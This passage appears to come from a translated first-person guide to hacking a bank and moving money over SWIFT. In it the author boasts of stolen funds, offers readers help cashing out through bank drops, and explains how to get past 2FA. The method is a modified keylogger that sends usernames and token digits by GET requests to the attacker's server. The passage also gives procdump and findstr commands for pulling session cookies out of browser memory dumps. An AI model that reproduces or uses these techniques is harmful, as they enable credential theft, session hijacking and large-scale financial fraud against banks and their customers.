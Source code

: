 As you are about to learn in this home guide, hacking a bank and transferring money through the SWIFT network does not require the support of any government or a large and specialized group.  It is something totally possible being a mere amateur hacker, with only public tools and basic knowledge of how to write a script.

1. https://elpais.com/economia/2016/03/17/actualidad/1458200294_374693.html 
2. https://securelist.lat/el-gran-robo-de-banco-el-apt-carbanak/67508/ 
3. https://es.wikipedia.org/wiki/Hegemon%C3%ADa_cultural 

## 2.2 Help withdraw cash

Many of those who read this already have, or with a little study will be able to acquire, the skills needed to carry out a hack like this.  However, many will find that they lack the necessary criminal connections to get the handles in condition. In my case, this was the first bank that hacked, and at that time I only had a few and mediocre accounts ready to withdraw the cash (known as bank drops), so it was only a few hundred thousand that I could withdraw at total, when it is normal to get millions. Now, on the other hand, I do have the knowledge and connections to get cash more seriously, so if you are hacking a bank but need help to convert that into real money, and you want to use that money to finance radical social projects, you can contact me.

## 2.3 Collaborate

It is possible to hack banks as an amateur who works alone, but the net is that, in general, it is not as easy as I paint it here.  I was lucky with this bank for several reasons:

1. It was a small bank, so it took me much less time to understand how everything worked.
2. They had no procedure to check the sent swift messages.  Many banks have one, and you need to write code to hide your transfers from their monitoring system.
3. They only used password authentication to access the application with which they connected to the SWIFT network. Most banks now use RSA SecurID, or some form of 2FA.  You can skip this by typing code to get an alert when your token enters, so you can use it before it expires. It's simpler than it seems: I used Get-Keystrokes [1], modifying it so that instead of storing the pressed keys, a GET request is made to my server every time it is detected that they have entered a username. This request adds the username to the url and, as they type the token, several GETs are made with the token digits concatenated to the url. On my side I leave this running in the meantime: 

```
  ssh me@my_secret_server 'tail -f /var/log/apache2/access_log'
    | while read i; do echo $i; aplay alarma.wav &> /dev/null; done
```

If it is a web application, you can skip the 2FA by stealing the cookie after they have authenticated. I am not an APT with a team of coders who can make me customized tools. I am a simple person who subsists on what the terminal gives [2], so what I use is:

```
procdump64 /accepteula -r -ma PID_of_browser
 strings64 /accepteula * .dmp |  findstr PHPSESSID 2> nul
```

 or going through findstr rather than strings, which makes it much faster:

```
findstr PHPSESSID * .dmp> tmp 
     strings64 /accepteula tmp |  findstr PHPSESSID 2> nul
```
